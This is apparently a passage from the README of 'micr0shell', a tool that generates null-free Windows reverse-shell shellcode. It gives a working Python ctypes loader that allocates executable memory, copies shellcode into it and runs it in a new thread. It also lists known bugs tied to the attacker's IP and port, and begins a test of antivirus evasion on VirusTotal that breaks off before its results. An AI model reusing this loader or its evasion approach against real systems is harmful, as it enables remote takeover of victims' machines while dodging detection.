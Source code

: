 #### Python
```python
import ctypes, struct


buf =  b"\x48\x31\...."  # SHELLCODE HERE
buf=bytearray(buf)

ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(buf)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))

buf = (ctypes.c_char * len(buf)).from_buffer(buf)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(ptr),
                                     buf,
                                     ctypes.c_int(len(buf)))
print("Shellcode located at address %s" % hex(ptr))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_uint64(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```

## Known Issues
1. Based on the provided `IP address`, `port`, and `shell type`, micr0shell dynamically generates Null-Free shellcode. While I've accounted for most common scenarios that could introduce Null bytes, it's worth noting that if the supplied IP address contains both `.255` and `.0`—such as `192.168.0.255`—the generated shellcode will include a Null byte. Though such IP addresses are relatively rare in practice, eliminating Null bytes for all possible IP addresses would significantly increase complexity. As a result, I have no immediate plans to address this issue.

2. Concerning the port value, theoretically, no port should produce a Null byte. However, due to the way Null-byte elimination is implemented, port `65280` is not usable.

3. On `Windows 11`, `double-clicking` the shellcode loader program/script will cause the shell session to exit quickly. However, if you launch it through `CMD` or `PowerShell`, the shell session will remain active until you disconnect from the server. This issue is currently under investigation and appears to be related to the shellcode itself. I will find a way to fix this ASAP.


## Test Case
Shellcode signature evasion capability test, sample files are uploaded to VirusTotal in Aug, 2023.

### Shellcode Bin File
Use msfvenom and micr0shell to generate raw binary files, and upload them, respectively. There are 2 samples generated from msfvenom, one includes 0x00, and the other is Null-Free. The comparison is as follows:
